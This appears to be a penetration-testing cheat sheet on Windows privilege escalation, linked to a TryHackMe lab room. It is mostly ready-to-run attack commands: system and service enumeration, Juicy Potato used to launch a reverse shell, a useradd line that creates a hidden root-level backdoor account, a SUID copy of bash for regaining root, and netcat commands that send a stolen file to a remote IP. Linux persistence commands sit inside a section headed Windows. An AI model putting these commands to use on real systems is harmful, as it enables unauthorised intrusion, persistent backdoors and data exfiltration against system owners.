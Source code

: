 # Windows

**Copy info from here:** [**https://tryhackme.com/room/windowsprivesc20**](https://tryhackme.com/room/windowsprivesc20)



**Gathering Info**

```
whoami /priv
```

```
net user
```

```
systeminfo
```

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

```
dir c:\
```

```
dir "c:\program files"
```

```
dir "c:\program files (x86)"
```

```
wmic service get name,startname
```

```
wmic service get name,pathname,startname | findstr "Program Files"
```

```
cacls *.exe
```

**Recent Files**

Might be able to find interesting files by looking at what was recently accessed. Start -> run -> recent.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

**Juicy Potato**

* Download Juicy Potato to your attack machine
* Upload Juicy Potato to the target (ex: via FTP, SMB, HTTP, etc.)
* Create a reverse shell and upload it to the target (ex: via FTP, SMB, HTTP, etc.) use Juicy Potato to execute your reverse shell

```
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

```
JuicyPotato.exe -l 5050 -p C:\path\to\reverse-shell.exe -t *
```

**Persistence**

Add a new user.

```
useradd -p $(openssl passwd -crypt password) -s /bin/bash -o -u 0 -g 0 -m victor
```

Rootbash (Credit: Tib3rius).

```
# as root, create a copy of BASH and then set the SUID-bit
# to resume root-access execute the new binary using -p
cp /bin/bash /tmp/bash; chown root /tmp/bash; chmod u+s /tmp/bash; chmod o+x /tmp/bash
/tmp/bash -p
```

Exfil via Netcat.

```
nc -nvlp 5050 > stolen.exe
nc.exe -w3 10.11.12.13 5050 < stealme.exe
```
